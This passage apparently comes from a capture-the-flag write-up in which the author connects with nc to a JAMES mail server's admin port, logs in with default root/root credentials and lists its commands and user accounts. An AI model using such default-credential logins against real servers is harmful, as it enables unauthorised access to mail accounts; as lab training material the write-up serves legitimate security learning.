 

## Shell as mindy

### James Admin --\> Mail Access

I can connect to 4555 with `nc`, and I'm prompted to login. The default
creds of root/root work:



    root@kali# nc 10.10.10.51 4555
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    Password:
    root
    Welcome root. HELP for a list of commands



I can get the list of commands with `help`:



    help
    Currently implemented commands:
    help                                    display this help
    listusers                               display existing accounts
    countusers                              display the number of existing accounts
    adduser [username] [password]           add a new user
    verify [username]                       verify if specified user exist
    deluser [username]                      delete existing user
    setpassword [username] [password]       sets a user's password
    setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
    showalias [username]                    shows a user's current email alias
    unsetalias [user]                       unsets an alias for 'user'
    setforwarding [username] [emailaddress] forwards a user's email to another email address
    showforwarding [username]               shows a user's current email forwarding
    unsetforwarding [username]              removes a forward
    user [repositoryname]                   change to another user repository
    shutdown                                kills the current JVM (convenient when James is run as a daemon)
    quit                                    close connection



I can list users to see five accounts:



    listusers
    Existing accounts 5
    user: james
    user: thomas
    user: john
    user: mindy
    user: mailadmin
